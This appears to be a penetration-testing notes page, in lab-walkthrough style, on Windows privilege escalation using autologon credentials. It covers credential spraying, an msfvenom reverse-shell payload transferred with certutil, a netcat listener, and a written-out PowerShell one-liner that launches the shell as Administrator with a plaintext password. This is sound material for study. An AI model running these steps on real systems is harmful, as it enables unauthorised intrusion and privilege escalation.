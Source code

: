 # Autologon Credentials

![](<../../../../.gitbook/assets/image (48).png>)

These credentials can then be used based on the different users we have.&#x20;

We spray with either CME, or PSEXEC or runas or winrm, the users could be part of the remote management group which means we can use evil iwnrm

![](<../../../../.gitbook/assets/image (26).png>)

![](<../../../../.gitbook/assets/image (21).png>)

![](<../../../../.gitbook/assets/image (59).png>)

Since there are no open services that would allow to remotely connect to the box as the Administrator user, such as RDP or WinRM, in order to exploit this, the PowerShell System.Management.Automation utility, which allows to execute scripts or binaries as a different user, can be leveraged. Clear-text credentials for the user can be provided when executing the command, which will be encrypted during execution.

Generating a reverse shell using MSFvenom with the following flags:

* \-p to specify the payload type, in this case, the Windows TCP Reverse Shelll
* LHOST to specify the localhost IP address to connect to
* LPORT to specify the local port to connect to
* \-f to specify the format for the shell, in this case, exe

![](https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-104.png?w=800\&ssl=1)

Using the Certutil utility and the Python simple web server to transfer the reverse shell to the victim machine:

![](https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-105.png?w=800\&ssl=1)

The next step is to set up a Netcat listener, which will catch the reverse shell when it is executed by the victim host, using the following flags:

* \-l to listen for incoming connections
* \-v for verbose output
* \-n to skip the DNS lookup
* \-p to specify the port to listen on

![](https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-106.png?w=800\&ssl=1)

The following PowerShell command will execute the reverse shell as the Administrator user, if the credentials provided are correct:

```
powershell -c "$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);Start-Process -FilePath "shell.exe" -Credential $creds"
```

![](https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/05/image-107.png?w=800\&ssl=1)
